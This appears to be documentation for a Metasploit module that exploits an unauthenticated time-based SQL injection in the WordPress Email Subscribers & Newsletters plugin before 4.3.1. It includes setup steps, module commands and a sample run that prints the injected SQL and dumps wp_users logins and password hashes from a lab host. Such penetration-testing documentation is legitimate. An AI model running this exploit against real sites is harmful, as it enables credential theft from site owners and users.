 ## Vulnerable Application

Email Subscribers & Newsletters plugin contains an unauthenticated timebased SQL injection in
versions before 4.3.1.  The `hash` parameter is vulnerable to injection.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/email-subscribers/advanced/)
or [4.2.2](https://downloads.wordpress.org/plugin/email-subscribers.4.2.2.zip)

After install, simply activate the plug-in.  You may get a "80% done!" page, simply ignore it.

## Verification Steps

1. Install the plugin on wordpress.
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_email_sub_news_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Email Subscribers & Newsletters 4.2.2 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
msf6 > use auxiliary/scanner/http/wp_email_sub_news_sqli 
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_email_sub_news_sqli) > run

[*] Checking /wp-content/plugins/email-subscribers/readme.txt
[*] Found version 4.2.2 in the plugin
[+] Vulnerable version of Email Subscribers and Newsletter detected
[*] {SQLi} Executing (select group_concat(yKaoA) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) yKaoA from wp_users limit 3) adO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
